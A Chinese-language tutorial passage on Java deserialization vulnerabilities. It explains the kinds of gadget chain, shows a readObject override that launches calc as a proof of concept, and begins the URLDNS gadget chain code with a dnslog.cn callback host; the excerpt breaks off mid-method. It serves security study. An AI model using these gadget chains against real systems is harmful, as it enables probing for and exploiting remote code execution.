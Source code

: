 进行反序列化后的结果：

![image-20251022100640164](C:\Users\A411\AppData\Roaming\Typora\typora-user-images\image-20251022100640164.png)

### 安全问题

**反序列化利用链**

1. 入口类的 readObject 直接调用危险方法。
2. 入口参数中包含可控类，该类有危险方法， readObject 时调用。
3. 入口类参数中包含可控类，该类又调用其他有危险方法的类， readObject 时调用。
4. 构造函数 / 静态代码块等类加载时隐式执行。

#### 入口类的 readObject 直接调用

在UserDemo中写入readObject方法：

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    //指向正确readObject
    ois.defaultReadObject();
    Runtime.getRuntime().exec("calc");
}
```

经过序列化输出为ser.txt，之后在执行反序列化操作时，因为反序列化这时调用的不是Java本身的方法，而是UserDemo对readObject()进行了重写之后的方法，所以就会执行到远程执行计算器的代码。

#### 入口参数中包含可控类

正常代码中 创建对象HashMap，会用到原生态readObject方法去反序列化数据，

readObject 源方法就在ObjectInputSteam，但是HashMap也有readObject方法，

反序列化readObject方法调用 HashMap里面的readObject。

UrlDns代码如下：

```java
package org.example.seriatestdemo;

import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrlDns {
//    执行链：
//		序列化对象hash 来源于自带类HashMap
//         *   Gadget Chain:
//                *   HashMap.readObject()
//                *       HashMap.putVal()
//                *         HashMap.hash()
//                *           URL.hashCode()
//							hashCode执行结果触发访问DNS请求，如果这里是执行命令的话，就是RCE漏洞。
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        HashMap<URL, Integer> map = new HashMap<>();
        // 这里使用的是dnslog中的地址，因为最终结果URL.hashcode()就是dns的访问
        URL url = new URL("http://6asagu.dnslog.cn");
        map.put(url,1);
        SerializeTest(map);
        UnSerializableTest("Dnslog.txt");
    }

    public static void SerializeTest(Object obj) throws IOException {
        // FileOutputStream()输出文件
        // 使用ObjectOutputStream 将对象 obj 序列化后输出到文件 ser.txt
        // 将对象obj序列化输出到文件ser.txt
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("Dnslog.txt"));
```